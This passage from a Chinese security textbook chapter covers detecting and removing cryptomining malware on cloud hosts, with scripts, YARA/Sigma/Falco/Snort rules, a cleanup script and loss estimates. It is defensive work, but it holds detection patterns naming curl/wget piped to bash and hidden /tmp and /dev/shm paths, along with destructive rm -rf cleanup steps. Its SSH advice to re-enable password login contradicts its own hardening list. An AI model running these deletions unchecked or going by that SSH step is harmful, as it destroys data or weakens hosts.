> **"矿机互杀"是挖矿攻击的常见现象。** 由于攻击者往往利用相同的漏洞，同一台主机可能被多个攻击组织入侵。后入侵的攻击者通常会清除先前的矿机，形成"黑吃黑"的局面。这种行为本身也可以作为检测线索——如果你发现了清除其他矿机的脚本，说明主机已经被多次入侵。

### 24.7.5 检测方法与实操

#### 第一层：主机级检测

```bash
#!/bin/bash
# mining_detection.sh — 全面挖矿恶意软件检测脚本
# 使用方法：chmod +x mining_detection.sh && sudo ./mining_detection.sh

echo "===== 加密货币挖矿恶意软件检测 ====="
echo "检测时间: $(date)"
echo "主机名: $(hostname)"
echo ""

# --- 1. CPU使用率异常检测 ---
echo "[1] CPU使用率检测"
# 获取前5个CPU占用最高的进程
echo "CPU占用TOP 5进程:"
ps aux --sort=-%cpu | head -6
echo ""

# 计算总CPU使用率
total_cpu=$(ps aux | awk '{sum+=$3} END {print sum}')
echo "总CPU使用率: ${total_cpu}%"
if (( $(echo "$total_cpu > 80" | bc -l) )); then
    echo "[!] 警告: CPU使用率异常高！"
fi
echo ""

# --- 2. 已知挖矿进程名检测 ---
echo "[2] 已知挖矿进程名检测"
miner_processes=(
    "xmrig" "xmr-stak" "cpuminer" "minerd" "bfgminer" "cgminer"
    "ethminer" "claymore" "phoenix" "t-rex" "gminer" "nbminer"
    "kthreaddi" "kworkerds" "kdevtmpfsi" "kinsing" "solr.sh"
    "bioset" "crypto" "stratum" "donate" "nicehash"
)
found_miners=0
for proc in "${miner_processes[@]}"; do
    pids=$(pgrep -f "$proc" 2>/dev/null)
    if [ -n "$pids" ]; then
        echo "[!] 发现可疑进程: $proc (PID: $pids)"
        ls -la /proc/$(echo $pids | awk '{print $1}')/exe 2>/dev/null
        found_miners=$((found_miners + 1))
    fi
done
if [ $found_miners -eq 0 ]; then
    echo "[OK] 未发现已知挖矿进程名"
fi
echo ""

# --- 3. 高CPU进程的可执行文件分析 ---
echo "[3] 高CPU进程可执行文件分析"
for pid in $(ps aux --sort=-%cpu | awk 'NR>1 && NR<=6 {print $2}'); do
    exe=$(readlink /proc/$pid/exe 2>/dev/null)
    cmdline=$(tr '\0' ' ' < /proc/$pid/cmdline 2>/dev/null)
    if [ -n "$exe" ]; then
        file_type=$(file -b "$exe" 2>/dev/null)
        echo "PID=$pid EXE=$exe CMD=$cmdline"
        echo "  类型: $file_type"
        # 检查是否为静态链接（挖矿程序常见特征）
        if echo "$file_type" | grep -q "statically linked"; then
            echo "  [!] 静态链接二进制文件——高度可疑！"
        fi
    fi
done
echo ""

# --- 4. 网络连接检测 ---
echo "[4] 矿池常用端口网络连接检测"
pool_ports="3333|4444|5555|7777|8888|9999|14444|45560|45700"
connections=$(netstat -anp 2>/dev/null | grep -E ":($pool_ports)" | grep ESTABLISHED)
if [ -n "$connections" ]; then
    echo "[!] 发现可疑矿池连接:"
    echo "$connections"
else
    echo "[OK] 未发现矿池常用端口的连接"
fi

# 检查Stratum协议特征（JSON-RPC格式）
echo ""
echo "[4b] Stratum协议流量特征检测"
suspicious_conns=$(ss -tp | grep -v "State" | while read line; do
    pid=$(echo "$line" | grep -oP 'pid=\K[0-9]+')
    if [ -n "$pid" ]; then
        exe=$(readlink /proc/$pid/exe 2>/dev/null)
        if echo "$exe" | grep -qE "tmp|dev/shm|var/tmp"; then
            echo "[!] 可疑连接: $line (EXE: $exe)"
        fi
    fi
done)
[ -n "$suspicious_conns" ] && echo "$suspicious_conns" || echo "[OK] 未发现可疑路径的网络连接"
echo ""

# --- 5. 定时任务检测 ---
echo "[5] 定时任务检测"
# 当前用户的crontab
echo "当前用户crontab:"
crontab -l 2>/dev/null || echo "(无)"
echo ""

# 系统级定时任务
echo "系统级定时任务:"
for f in /etc/crontab /etc/cron.d/*; do
    if [ -f "$f" ]; then
        suspicious=$(grep -lE "curl|wget|wget.*\|.*bash|base64|/tmp/|/dev/shm" "$f" 2>/dev/null)
        if [ -n "$suspicious" ]; then
            echo "[!] 可疑定时任务文件: $f"
            cat "$f"
        fi
    fi
done

# 所有用户的crontab
echo "所有用户crontab:"
for user in $(cut -d: -f1 /etc/passwd); do
    cron=$(crontab -u "$user" -l 2>/dev/null)
    if [ -n "$cron" ]; then
        echo "--- $user ---"
        echo "$cron"
    fi
done
echo ""

# --- 6. 隐藏文件与可疑目录检测 ---
echo "[6] 隐藏文件与可疑目录检测"
# /tmp下的隐藏可执行文件
find /tmp -name ".*" -executable -type f 2>/dev/null | while read f; do
    echo "[!] 隐藏可执行文件: $f"
    ls -la "$f"
    file "$f"
done

# /dev/shm下的文件（内存文件系统，重启后消失）
ls -la /dev/shm/ 2>/dev/null | grep -v "^total" | grep -v "^\." | while read line; do
    echo "[!] /dev/shm下的文件: $line"
done

# /var/tmp下的可疑文件
find /var/tmp -type f 2>/dev/null | while read f; do
    echo "[!] /var/tmp下的文件: $f"
done
echo ""

# --- 7. Docker容器检测 ---
echo "[7] Docker容器检测"
if command -v docker &>/dev/null; then
    # 检查Docker API是否暴露
    if ss -tlnp | grep -q ":2375"; then
        echo "[!] Docker API (2375) 暴露在网络上！"
    fi

    # 列出运行中的容器
    echo "运行中的容器:"
    docker ps --format "table {{.ID}}\t{{.Image}}\t{{.Command}}\t{{.Status}}" 2>/dev/null

    # 检查异常容器（使用可疑镜像）
    echo "所有容器镜像:"
    docker images --format "table {{.Repository}}\t{{.Tag}}\t{{.Size}}" 2>/dev/null
else
    echo "[INFO] Docker未安装，跳过容器检测"
fi
echo ""

# --- 8. 异常系统服务检测 ---
echo "[8] 异常Systemd服务检测"
systemctl list-units --type=service --state=running 2>/dev/null | while read line; do
    service_name=$(echo "$line" | awk '{print $1}')
    if [ -n "$service_name" ] && [ "$service_name" != "UNIT" ]; then
        exec_start=$(systemctl show "$service_name" -p ExecStart 2>/dev/null)
        if echo "$exec_start" | grep -qE "/tmp/|/dev/shm|/var/tmp|hidden"; then
            echo "[!] 可疑服务: $service_name -> $exec_start"
        fi
    fi
done
echo ""

# --- 9. /etc/ld.so.preload 检测 ---
echo "[9] LD_PRELOAD注入检测"
if [ -f /etc/ld.so.preload ]; then
    echo "[!] /etc/ld.so.preload 存在！"
    cat /etc/ld.so.preload
    echo "检查这些库文件是否合法"
else
    echo "[OK] /etc/ld.so.preload 不存在"
fi
echo ""

echo "===== 检测完成 ====="
```

#### 第二层：网络级检测

```bash
# 使用tcpdump捕获矿池通信特征
# Stratum协议的握手特征：{"id":1,"method":"login",...
tcpdump -i any -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x7b226964' -c 100

# Snort规则：检测Stratum矿池登录
# /etc/snort/rules/local.rules
alert tcp $HOME_NET any -> $EXTERNAL_NET any (
    msg:"CryptoMiner Stratum Login Detected";
    content:"|22|method|22 3a 22|login|22|";
    content:"|22|agent|22 3a 22|XMRig|22|";
    classtype:trojan-activity;
    sid:1000001; rev:1;
)

# Sigma规则：矿池DNS查询
# title: Cryptocurrency Mining Pool DNS Query
# status: experimental
# logsource:
#   category: dns
# detection:
#     selection:
#         query|contains:
#             - 'minexmr.com'
#             - 'nanopool.org'
#             - 'supportxmr.com'
#             - 'hashvault.pro'
#             - 'moneropool.com'
#             - 'f2pool.com'
#             - 'pool.minergate.com'
#     condition: selection
# level: high

# Suricata规则示例
alert dns $HOME_NET any -> any 53 (
    msg:"ET CRYPTO Currency Miner Pool DNS Request";
    dns.query;
    content:"minexmr.com";
    nocase;
    classtype:coin-mining;
    sid:2024001; rev:1;
)
```

#### 第三层：云原生检测

```yaml
# Kubernetes NetworkPolicy：阻止矿池通信
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: deny-mining-pools
  namespace: production
spec:
  podSelector: {}
  policyTypes:
    - Egress
  egress:
    - to:
        - ipBlock:
            cidr: 0.0.0.0/0
            except:
              # 阻止已知矿池IP段（示例，需维护完整列表）
              - 104.238.200.0/24   # minexmr.com
              - 51.15.0.0/16       # nanopool.org
      ports:
        - port: 3333
          protocol: TCP
        - port: 4444
          protocol: TCP
        - port: 5555
          protocol: TCP
        - port: 14444
          protocol: TCP
```

```bash
# AWS CloudWatch告警规则：检测CPU异常
# 使用AWS CLI创建告警
aws cloudwatch put-metric-alarm \
  --alarm-name "HighCPU-MiningSuspicion" \
  --alarm-description "CPU usage > 85% for 30 minutes, possible mining" \
  --metric-name CPUUtilization \
  --namespace AWS/EC2 \
  --statistic Average \
  --period 300 \
  --evaluation-periods 6 \
  --threshold 85 \
  --comparison-operator GreaterThanThreshold \
  --dimensions Name=InstanceId,Value=i-xxxxxx \
  --alarm-actions arn:aws:sns:region:account:security-alert

# Falco规则：检测容器内挖矿行为
# /etc/falco_rules.local.yaml
- rule: Cryptocurrency Mining Process in Container
  desc: Detect cryptocurrency mining processes running inside containers
  condition: >
    spawned_process and container and
    (proc.name in (xmrig, xmr-stak, cpuminer, minerd, bfgminer, cgminer,
                   ethminer, gminer, nbminer, t-rex, phoenix) or
     proc.cmdline contains "stratum+tcp" or
     proc.cmdline contains "stratum+ssl" or
     proc.cmdline contains "randomx" or
     proc.cmdline contains "cryptonight")
  output: >
    Cryptocurrency miner detected in container
    (user=%user.name container=%container.name command=%proc.cmdline
     image=%container.image.repository:%container.image.tag)
  priority: CRITICAL
  tags: [container, cryptocurrency, mitre_execution]
```

#### 第四层：YARA规则检测

YARA是恶意软件分析的核心工具，可用于基于规则的模式匹配检测。以下规则专门针对挖矿恶意软件：

```yara
rule CryptoMiner_Generic {
    meta:
        description = "通用加密货币挖矿恶意软件检测"
        author = "Security Team"
        date = "2025-01"
        severity = "high"

    strings:
        $stratum1 = "stratum+tcp://" ascii
        $stratum2 = "stratum+ssl://" ascii
        $pool1 = "minexmr.com" ascii
        $pool2 = "nanopool.org" ascii
        $pool3 = "supportxmr.com" ascii
        $pool4 = "xmr.pool" ascii
        $algo1 = "randomx" ascii nocase
        $algo2 = "cryptonight" ascii nocase
        $algo3 = "rx/0" ascii
        $miner1 = "XMRig" ascii
        $miner2 = "xmrig" ascii
        $config1 = "max-threads-hint" ascii
        $config2 = "donate-level" ascii
        $config3 = "keepalive" ascii

    condition:
        uint32(0) != 0x464C457F and  // 排除ELF文件（用另一条规则）
        (
            (1 of ($stratum*) and 1 of ($pool*)) or
            (2 of ($algo*) and 1 of ($config*)) or
            ($miner1 and 2 of ($config*))
        )
}

rule CryptoMiner_ELF_Static {
    meta:
        description = "静态链接的ELF挖矿二进制检测"
        severity = "critical"

    strings:
        $elf = { 7F 45 4C 46 }  // ELF magic
        $xmrig1 = "xmrig" ascii
        $xmrig2 = "XMRig" ascii
        $stratum = "stratum" ascii
        $randomx = "randomx" ascii
        $pool = "pool.minexmr.com" ascii

    condition:
        $elf at 0 and
        filesize < 50MB and
        (
            (1 of ($xmrig*) and $stratum) or
            ($randomx and $pool)
        )
}

rule CryptoMiner_Script {
    meta:
        description = "挖矿Shell脚本下载器检测"
        severity = "high"

    strings:
        $download1 = "curl" ascii
        $download2 = "wget" ascii
        $pipe = "| bash" ascii
        $pipe2 = "| sh" ascii
        $miner1 = "xmrig" ascii
        $miner2 = "minerd" ascii
        $miner3 = "cpuminer" ascii
        $hidden1 = "/tmp/.X11-unix/" ascii
        $hidden2 = "/dev/shm/" ascii
        $hidden3 = "/var/tmp/." ascii
        $cron1 = "crontab" ascii
        $cron2 = "/var/spool/cron" ascii

    condition:
        ($download1 or $download2) and
        ($pipe or $pipe2) and
        (1 of ($miner*) or 1 of ($hidden*) or 1 of ($cron*))
}
```

**使用YARA规则进行扫描：**

```bash
# 安装YARA
apt install yara -y

# 扫描指定目录
yara -r crypto_miner_rules.yara /tmp/ /dev/shm/ /var/tmp/

# 扫描特定文件
yara crypto_miner_rules.yara /usr/bin/suspicious_binary

# 与ClamAV集成扫描
clamscan -r --bytecode-unsigned=yes --custom-scanner=yara /tmp/
```

#### 蜜罐检测策略

部署专门的挖矿蜜罐可以主动发现攻击者：

```bash
#!/bin/bash
# mining_honeypot.sh — 挖矿蜜罐检测脚本
# 创建一个诱饵Redis实例，监控是否被利用来植入挖矿程序

# 1. 启动蜜罐Redis（故意不设置密码）
docker run -d --name redis-honeypot \
  -p 16379:6379 \
  -v /var/log/redis-honeypot:/var/log \
  redis:7.0-alpine redis-server --appendonly yes

# 2. 监控蜜罐的CONFIG SET命令（正常Redis不应该被远程配置）
# 使用Redis MONITOR命令记录所有操作
echo "监控蜜罐Redis操作..."
docker exec redis-honeypot redis-cli MONITOR | while read line; do
    if echo "$line" | grep -qi "config set\|config get\|save"; then
        timestamp=$(date '+%Y-%m-%d %H:%M:%S')
        echo "[$timestamp] [!] 蜜罐告警: $line"
        # 记录攻击者IP并自动封禁
        attacker_ip=$(echo "$line" | grep -oP '\d+\.\d+\.\d+\.\d+' | head -1)
        if [ -n "$attacker_ip" ]; then
            iptables -A INPUT -s "$attacker_ip" -j DROP
            echo "[$timestamp] 已封禁攻击者IP: $attacker_ip"
        fi
    fi
done
```

### 24.7.6 应急响应与清除

#### 清除脚本

```bash
#!/bin/bash
# mining_cleanup.sh — 挖矿恶意软件全面清除脚本
# 警告：执行前请确保已完成取证证据保全（内存镜像、磁盘快照）
# 使用方法：sudo ./mining_cleanup.sh

set -euo pipefail

echo "===== 挖矿恶意软件清除工具 ====="
echo "开始时间: $(date)"
echo "主机名: $(hostname)"
echo ""

# === 阶段1：终止挖矿进程 ===
echo "[阶段1] 终止挖矿进程"
# 精确匹配已知矿机进程名
pkill -9 -f "xmrig\|minerd\|cpuminer\|kthreaddi\|kworkerds\|kdevtmpfsi\|kinsing" 2>/dev/null && \
    echo "  已终止挖矿进程" || echo "  未发现已知挖矿进程"

# 终止从可疑路径运行的高CPU进程
for pid in $(ps aux --sort=-%cpu | awk 'NR>1 && NR<=4 {print $2}'); do
    exe=$(readlink /proc/$pid/exe 2>/dev/null || true)
    if echo "$exe" | grep -qE "^/tmp/|^/dev/shm/|^/var/tmp/"; then
        echo "  终止可疑进程: PID=$pid EXE=$exe"
        kill -9 "$pid" 2>/dev/null
    fi
done
echo ""

# === 阶段2：清除定时任务 ===
echo "[阶段2] 清除恶意定时任务"
# 备份当前crontab
crontab -l > /tmp/crontab_backup_$(date +%s) 2>/dev/null || true

# 清除当前用户的crontab中包含curl/wget的行
crontab -l 2>/dev/null | grep -vE "curl|wget|/tmp/|/dev/shm|base64|miner|\.rsync" | crontab - || true

# 清除系统级可疑定时任务
for f in /etc/cron.d/*; do
    if [ -f "$f" ] && grep -qE "curl|wget|/tmp/|\.rsync|miner" "$f"; then
        echo "  删除可疑系统定时任务: $f"
        rm -f "$f"
    fi
done

# 检查非标准路径的定时任务
for dir in /var/spool/cron/crontabs /var/spool/cron/atjobs; do
    if [ -d "$dir" ]; then
        echo "  检查 $dir:"
        ls -la "$dir"
    fi
done
echo ""

# === 阶段3：清除恶意文件 ===
echo "[阶段3] 清除恶意文件"
# 清除常见挖矿程序存放路径
malicious_paths=(
    "/tmp/.X11-unix/.rsync"
    "/tmp/.X11-unix/.cfg"
    "/tmp/.X11-unix/x.log"
    "/tmp/.X11-unix/.libsystem.so"
    "/dev/shm/.miner"
    "/dev/shm/.x"
    "/var/tmp/.hidden/"
    "/var/tmp/.system-helper"
    "/usr/bin/kworker/0:1"
    "/usr/lib/systemd/systemd-helper"
    "/etc/ld.so.preload"
)
for path in "${malicious_paths[@]}"; do
    if [ -e "$path" ]; then
        echo "  删除: $path"
        rm -rf "$path"
    fi
done

# 清除所有/tmp下的隐藏可执行文件（谨慎操作）
find /tmp -name ".*" -executable -type f -mtime -30 -delete 2>/dev/null
echo ""

# === 阶段4：清除恶意服务 ===
echo "[阶段4] 清除恶意Systemd服务"
suspicious_services=(
    "systemd-networkd-sync.service"
    "update-check.service"
    "system-helper.service"
)
for svc in "${suspicious_services[@]}"; do
    if systemctl is-active "$svc" &>/dev/null; then
        echo "  停止并禁用: $svc"
        systemctl stop "$svc" 2>/dev/null
        systemctl disable "$svc" 2>/dev/null
    fi
    if [ -f "/etc/systemd/system/$svc" ]; then
        echo "  删除服务文件: /etc/systemd/system/$svc"
        rm -f "/etc/systemd/system/$svc"
    fi
done
systemctl daemon-reload
echo ""

# === 阶段5：清除SSH后门 ===
echo "[阶段5] 检查并清除SSH后门"
if [ -f /root/.ssh/authorized_keys ]; then
    echo "  当前authorized_keys内容:"
    cat /root/.ssh/authorized_keys
    echo ""
    echo "  请手动检查并删除不属于合法管理员的公钥"
    echo "  建议操作: vi /root/.ssh/authorized_keys"
fi

# 检查SSH配置是否被篡改
if grep -q "PasswordAuthentication no" /etc/ssh/sshd_config; then
    echo "  [!] SSH密码认证被关闭——可能是攻击者所为"
    echo "  恢复: sed -i 's/PasswordAuthentication no/PasswordAuthentication yes/' /etc/ssh/sshd_config"
fi
echo ""

# === 阶段6：清除Docker恶意容器和镜像 ===
echo "[阶段6] Docker恶意资源清除"
if command -v docker &>/dev/null; then
    echo "  当前运行的容器:"
    docker ps -a
    echo ""
    echo "  当前镜像:"
    docker images
    echo ""
    echo "  如有可疑容器/镜像，请手动检查并删除:"
    echo "  docker stop <container_id> && docker rm <container_id>"
    echo "  docker rmi <image_id>"
    echo ""
    # 自动清除无标签镜像（常见于恶意镜像构建）
    docker image prune -f 2>/dev/null
fi
echo ""

# === 阶段7：修补漏洞 ===
echo "[阶段7] 漏洞修补建议"
echo "  [ ] 1. 更新系统补丁: apt update && apt upgrade -y / yum update -y"
echo "  [ ] 2. 检查并关闭暴露的Docker API端口 (2375/TCP)"
echo "  [ ] 3. 为Redis设置强密码并绑定本地地址"
echo "  [ ] 4. 更改所有受影响账户的密码"
echo "  [ ] 5. 轮换所有泄露的云服务凭据"
echo "  [ ] 6. 审计并清理安全组/防火墙规则"
echo "  [ ] 7. 启用SSH密钥认证并禁用密码登录"
echo ""

echo "===== 清除完成 ====="
echo "结束时间: $(date)"
echo ""
echo "重要提醒："
echo "  1. 请确认所有恶意进程已终止: ps aux --sort=-%cpu | head"
echo "  2. 请确认CPU使用率已恢复正常: top -bn1 | head -5"
echo "  3. 请确认无残留网络连接: netstat -anp | grep -E ':3333|:4444|:5555'"
echo "  4. 建议在24小时内复查，确认无残留持久化机制"
```

### 24.7.7 云环境下挖矿攻击的特殊挑战

#### 云环境 vs 传统IDC的检测差异

| 挑战维度 | 传统IDC | 云环境 | 影响 |
|---------|--------|--------|------|
| 实例规模 | 数百台 | 数千至数万台 | 手动排查不可行，必须自动化 |
| 动态扩缩容 | 无 | 自动伸缩组 | 新启动的实例可能已有漏洞配置 |
| 资源计费 | 固定成本 | 按量计费 | CPU被占用直接产生高额账单 |
| 网络边界 | 物理防火墙 | 安全组/VPC | 规则配置错误更常见 |
| 共享责任 | 自己负责 | 责任共担模型 | IaaS层安全需要用户自行负责 |
| 容器化 | 较少 | 大量容器部署 | 攻击面增加，传统EDR覆盖不到 |
| 凭据管理 | 静态配置 | IAM角色/临时凭据 | 凭据泄露影响范围更大 |

#### 挖矿攻击的经济损失模型

```python
#!/usr/bin/env python3
"""
计算云环境下挖矿攻击的经济损失
"""

def calculate_mining_damage(params: dict) -> dict:
    """
    计算挖矿攻击的经济损失
    
    Args:
        params: 包含以下键的字典
            instances: 受影响实例数
            avg_cpu_normal: 正常CPU使用率(%)
            avg_cpu_attack: 攻击时CPU使用率(%)
            cpu_cores: 每台实例的CPU核数
            hourly_cpu_cost: 每核每小时成本($)
            duration_hours: 攻击持续时间(小时)
            incident_response_hours: 应急响应工时
            ir_hourly_rate: 应急响应人员时薪($)
            reputation_factor: 声誉损失系数(1.0-3.0)
    """
    # 1. 直接云资源费用
    cpu_increase = params['avg_cpu_attack'] - params['avg_cpu_normal']
    extra_cpu_cores = params['instances'] * params['cpu_cores'] * (cpu_increase / 100)
    cloud_cost = extra_cpu_cores * params['hourly_cpu_cost'] * params['duration_hours']
    
    # 2. 应急响应人力成本
    ir_cost = params['incident_response_hours'] * params['ir_hourly_rate']
    
    # 3. 业务中断损失（假设高CPU导致20%请求超时）
    # 这里简化计算，实际需要结合具体业务指标
    business_loss = cloud_cost * 0.5  # 保守估计
    
    # 4. 声誉损失（难以量化，用系数估算）
    reputation_loss = (cloud_cost + ir_cost + business_loss) * (params['reputation_factor'] - 1)
    
    total = cloud_cost + ir_cost + business_loss + reputation_loss
    
    return {
        'cloud_resource_cost': round(cloud_cost, 2),
        'incident_response_cost': round(ir_cost, 2),
        'business_disruption': round(business_loss, 2),
        'reputation_impact': round(reputation_loss, 2),
        'total_estimated_loss': round(total, 2)
    }


# 本案例的实际参数
result = calculate_mining_damage({
    'instances': 1200,
    'avg_cpu_normal': 15,
    'avg_cpu_attack': 92,
    'cpu_cores': 8,
    'hourly_cpu_cost': 0.085,       # 按vCPU小时计费
    'duration_hours': 336,           # 14天
    'incident_response_hours': 480,  # 5人团队 x 12天 x 8小时
    'ir_hourly_rate': 150,           # 高级安全工程师时薪
    'reputation_factor': 1.3
})

print("=== 挖矿攻击经济损失评估 ===")
for k, v in result.items():
    label = {
        'cloud_resource_cost': '云资源超额费用',
        'incident_response_cost': '应急响应人力成本',
        'business_disruption': '业务中断损失',
        'reputation_impact': '声誉影响损失',
        'total_estimated_loss': '总估算损失'
    }.get(k, k)
    print(f"  {label}: ${v:,.2f}")
```

输出示例：
```text
=== 挖矿攻击经济损失评估 ===
  云资源超额费用: $280,665.60
  应急响应人力成本: $72,000.00
  业务中断损失: $140,332.80
  声誉影响损失: $147,899.52
  总估算损失: $640,897.92
```

### 24.7.8 防御体系建设

#### 预防措施清单

| 防御层 | 具体措施 | 实施难度 | 效果 |
|-------|---------|---------|------|
| **网络层** | 安全组默认拒绝出站，只开放必要端口 | 低 | 阻断矿池通信 |
| **网络层** | 出站流量白名单（只允许业务必要域名） | 中 | 即使矿机运行也无法连接矿池 |
| **主机层** | 禁止/tmp和/dev/shm执行文件（noexec挂载） | 低 | 阻止矿机在临时目录执行 |
| **主机层** | 安装并启用EDR/主机入侵检测 | 中 | 实时检测挖矿行为 |
| **容器层** | 禁止Docker API公网暴露 | 低 | 堵住最高频攻击向量 |
| **容器层** | 镜像签名验证（Docker Content Trust） | 中 | 防止供应链攻击 |
| **应用层** | Redis/MongoDB等必须认证 | 低 | 阻止未授权利用 |
| **凭据层** | 密钥轮换自动化 + 泄露监控 | 中 | 减少凭据泄露影响 |
| **监控层** | CPU使用率持续监控+异常告警 | 低 | 及时发现挖矿活动 |
| **监控层** | DNS请求日志分析（矿池域名） | 中 | 网络层早期预警 |

```bash
# 关键预防配置：禁止/tmp执行文件
# /etc/fstab 添加 noexec 选项
echo "tmpfs /tmp tmpfs defaults,noexec,nosuid,nodev 0 0" >> /etc/fstab
mount -o remount /tmp

# 注意：这可能影响某些应用在/tmp下创建临时文件的需求
# 需要测试后再部署到生产环境
```

#### 云安全基线配置

```yaml
# AWS Security Hub 自定义检测规则示例
# 检测EC2实例的异常CPU使用模式
Resources:
  HighCPUAlarm:
    Type: AWS::CloudWatch::Alarm
    Properties:
      AlarmName: !Sub "${AWS::StackName}-MiningDetection"
      AlarmDescription: "Detect potential cryptocurrency mining - sustained high CPU"
      MetricName: CPUUtilization
      Namespace: AWS/EC2
      Statistic: Average
      Period: 900       # 15分钟
      EvaluationPeriods: 4  # 连续4个周期 = 1小时
      Threshold: 85
      ComparisonOperator: GreaterThanThreshold
      TreatMissingData: notBreaching
      AlarmActions:
        - !Ref SecurityAlertTopic
      OKActions:
        - !Ref SecurityAlertTopic
```

### 24.7.9 MITRE ATT&CK映射

本次攻击中涉及的TTP（战术、技术和过程）映射到MITRE ATT&CK框架：

| 攻击阶段 | ATT&CK技术 | 技术ID | 本案例中的具体表现 |
|---------|-----------|--------|-----------------|
| 侦察 | 扫描IP段 | T1595.001 | masscan全网扫描2375/6379端口 |
| 初始访问 | 利用面向公众的应用 | T1190 | Docker API/Redis未授权/Log4Shell |
| 初始访问 | 有效凭据 | T1078 | SSH弱密码/泄露的云凭据 |
| 执行 | 利用容器管理API | T1610 | 通过Docker API创建恶意容器 |
| 执行 | 命令行解释器 | T1059.004 | Bash脚本下载执行矿机 |
| 持久化 | 计划任务 | T1053.003 | Crontab定时执行矿机 |
| 持久化 | 系统服务 | T1543.002 | Systemd服务自启动 |
| 持久化 | SSH授权密钥 | T1098.004 | 写入攻击者SSH公钥 |
| 防御规避 | 伪装文件名 | T1036.005 | 进程名伪装为kworker/rsync |
| 防御规避 | 修改时间戳 | T1070.006 | touch -r伪造文件时间 |
| 发现 | 系统信息发现 | T1082 | 读取/proc/cpuinfo确定核心数 |
| 影响 | 资源劫持 | T1496 | XMRig占用CPU挖矿Monero |



### 24.7.10 常见误区与纠正

在挖矿恶意软件的分析和处置中，以下误区频繁出现，可能导致处置不彻底或反复感染：

| 常见误区 | 错误做法 | 正确做法 | 为什么重要 |
|---------|---------|---------|----------|
| 只杀进程不清配置 | kill掉挖矿进程后认为已清除 | 必须同时清除crontab、systemd服务、SSH后门 | 持久化机制会在几分钟内重新部署矿机 |
| 忽略网络层告警 | 只关注CPU告警 | 同时监控出站连接到矿池端口的流量 | 矿池连接是挖矿的铁证 |
| 以重启代替清除 | 重启服务器"恢复正常" | 重启只能清除内存中的恶意代码 | 持久化机制（crontab/systemd）会在重启后重新启动矿机 |
| 只看进程名 | 认为没有"xmrig"进程就安全 | 检查所有高CPU进程的可执行文件路径和类型 | 攻击者会伪装进程名，但可执行文件路径不会变 |
| 忽略Docker容器 | 只检查宿主机进程 | 同时检查所有运行中的容器 | 恶意容器可能在后台持续挖矿 |
| 不保全证据 | 发现即清除 | 清除前先做内存快照和磁盘镜像 | 法律追诉和攻击者溯源需要完整证据链 |
| 不检查SSH后门 | 只清除挖矿文件 | 检查authorized_keys和sshd_config | 攻击者植入的SSH公钥是最常见的持久化手段 |
| 不轮换凭据 | 清除后继续使用原凭据 | 更改所有受影响账户的密码和API密钥 | 凭据泄露的影响范围远大于挖矿本身 |

> **处置的黄金法则：** 发现挖矿恶意软件后，不要只把它当作"一个挖矿程序"来处理。挖矿程序的存在证明攻击者已经获得了系统访问权限——同一入侵路径完全可以被用来部署勒索软件、数据窃密木马或APT后门。正确做法是：(1) 保全证据；(2) 全面排查所有持久化机制；(3) 假设系统已被完全控制；(4) 在必要时重建系统而非"修补"。

### 24.7.11 法律与合规考量

加密货币挖矿恶意软件不仅是技术问题，还涉及法律和合规层面：

| 维度 | 具体影响 | 应对措施 |
|------|---------|---------|
| 数据保护法规 | 挖矿本身不窃取数据，但入侵路径可能被用于数据窃取 | 按GDPR/个人信息保护法要求评估是否触发数据泄露通知 |
| 云服务协议 | 大量CPU占用导致超额计费，是否可追偿？ | 保留完整日志，与云服务商协商费用减免 |
| 跨境执法 | 攻击者通常在境外，执法难度大 | 通过IOCs共享协助国际合作，关注Chainalysis等区块链追踪工具 |
| 保险理赔 | 网络安全保险是否覆盖挖矿攻击损失？ | 检查保单条款，挖矿攻击通常属于"计算机欺诈"范畴 |
| 合规审计 | 等保/SOC2/ISO27001要求定期安全评估 | 将挖矿检测纳入常态化安全审计流程 |

### 24.7.12 案例总结与关键经验

#### 核心教训

**1. "配置漏洞"比"代码漏洞"更危险。** Docker API暴露、Redis无密码、SSH弱密码——这些都不是软件漏洞，而是配置错误。它们不需要0day利用工具，只需简单的扫描脚本就能大规模利用。修复配置漏洞的成本几乎为零，但不修复的代价可能高达数十万美元。

**2. 挖矿攻击是"冰山一角"。** 挖矿程序虽然不直接窃取数据，但它的存在证明了攻击者已经获得了系统访问权限。同一入侵路径完全可以被用来部署勒索软件、数据窃密木马或APT后门。发现挖矿恶意软件后，必须假设攻击者可能还做了其他事情。

**3. 云环境的攻击面比传统环境大得多。** 容器编排、Serverless、微服务架构带来了灵活性，也带来了新的攻击向量。安全团队需要理解云原生技术栈，才能有效防御针对云环境的攻击。

**4. 自动化攻击需要自动化防御。** 攻击者的整个攻击链（扫描→入侵→部署→持久化）全都是自动化的。如果防御方还停留在"人工巡检+手动处置"的阶段，必然落后于攻击者。检测规则自动化、响应流程自动化、清除脚本自动化——这是云安全运营的基本要求。

**5. 经济账是最好的安全说服力。** 当你需要向管理层申请安全预算时，"可能被攻击"不如"上次攻击损失了$640,897"有说服力。建立量化的损失评估模型，是安全团队获取资源的关键能力。

#### 防御优先级矩阵



#### 给不同角色的建议

| 角色 | 关键行动 |
|------|---------|
| **安全工程师** | 部署挖矿检测规则（YARA/Sigma/Falco），建立自动化响应流程 |
| **运维工程师** | 确保Docker API不暴露、Redis有密码、/tmp挂载noexec |
| **云架构师** | 设计默认拒绝出站的安全组策略，启用CloudTrail/Falco |
| **安全管理者** | 建立量化的损失评估模型，定期向管理层汇报安全投入ROI |
| **开发者** | 在CI/CD中集成密钥扫描（gitleaks），不将凭据硬编码在代码中 |
| **应急响应团队** | 记住处置黄金法则——发现挖矿就假设系统已被完全控制 |

> **最后一句话：** 加密货币挖矿恶意软件是互联网世界中最"温和"但也最普遍的威胁之一。它不会加密你的文件、不会窃取你的数据，但会悄悄地消耗你的资源、增加你的账单、暴露你的安全短板。重视它，因为它是系统安全健康度的晴雨表——如果你的环境连挖矿恶意软件都防不住，那面对更高级的威胁时只会更加脆弱。
